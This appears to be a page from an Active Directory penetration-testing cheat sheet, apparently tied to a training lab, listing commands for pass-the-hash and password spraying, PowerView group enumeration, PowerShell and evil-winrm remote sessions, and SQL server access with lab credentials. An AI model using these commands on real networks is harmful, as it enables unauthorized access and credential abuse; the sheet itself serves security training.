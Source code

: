 `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`

    Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`.

`Import-Module .\DomainPasswordSpray.ps1`

    Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host.

`Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`

    Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host.

Privileged Access

Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"`

    PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.

`Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"`

    PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.

`$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force`

    Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host.

`$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)`

    Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host.

`Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred`

    Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`).

`evil-winrm -i 10.129.201.234 -u forend`

    Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`.

`Import-Module .\PowerUpSQL.ps1`Used to import the `PowerUpSQL` tool.`Get-SQLInstanceDomain`

    PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host.

`Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'`

    PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host.

`mssqlclient.py`

    Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host.
